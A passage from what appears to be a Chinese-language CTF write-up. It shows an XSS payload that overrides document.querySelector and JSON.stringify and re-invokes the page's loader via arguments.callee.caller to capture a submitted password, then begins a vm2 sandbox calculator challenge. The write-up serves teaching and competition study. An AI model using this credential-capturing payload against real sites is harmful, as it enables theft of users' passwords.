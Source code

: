 那知道這個之後可以幹嘛呢？

我們先整理一下載入筆記的程式碼，簡化後長這樣：

``` js
(async () => {
  const { note, mode, views } = await (await fetch('/view', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
    },
    body: JSON.stringify({
      username,
      password,
      id: params.get('id')
    })
  })).json();

  document.querySelector('.note').innerHTML = text;
  // 在底下這行執行之前，會先執行我們的 XSS payload
  document.querySelector('.views').innerText = views;
})();
```

現在如果我們可以在最後一行之前執行程式碼的話，就可以做一些有趣的事情。

我們可以先把 `document.querySelector` 蓋掉，再把 `JSON.stringify` 蓋掉，像是這樣：

``` js
document.querySelector = function() {
  JSON.stringify = function(data) {
    
  }
}
```

蓋掉之後可以幹嘛呢？蓋掉之後我們就可以用 `arguments.callee.caller`，存取到最外層那個匿名的 async 函式，然後再呼叫一次！再呼叫一次之後，就會再發送一次 request，然後透過 `JSON.stringify` 把 password 傳進去，這時我們就可以攔截到：

``` js
document.querySelector = function() {
  JSON.stringify = function(data) {
    console.log(data.password) // flag
  };
  arguments.callee.caller()
}
```

這個非預期解來自於 [@dr_brix](https://twitter.com/dr_brix)，真的超級帥，從沒想過可以這樣做。

## web/vm-calc(2 solves)

話說做個計算功能是 CTF 中常見的題型，以這題來說乍看之下會以為是 VM escape，核心程式碼如下：

``` js
const { NodeVM } = require('vm2');
const vm = new NodeVM({
    eval: false,
    wasm: false,
    wrapper: 'none',
    strict: true
});

app.post("/", (req, res) => {
    const { calc } = req.body;

    if(!calc) {
        return res.render("index");
    }
```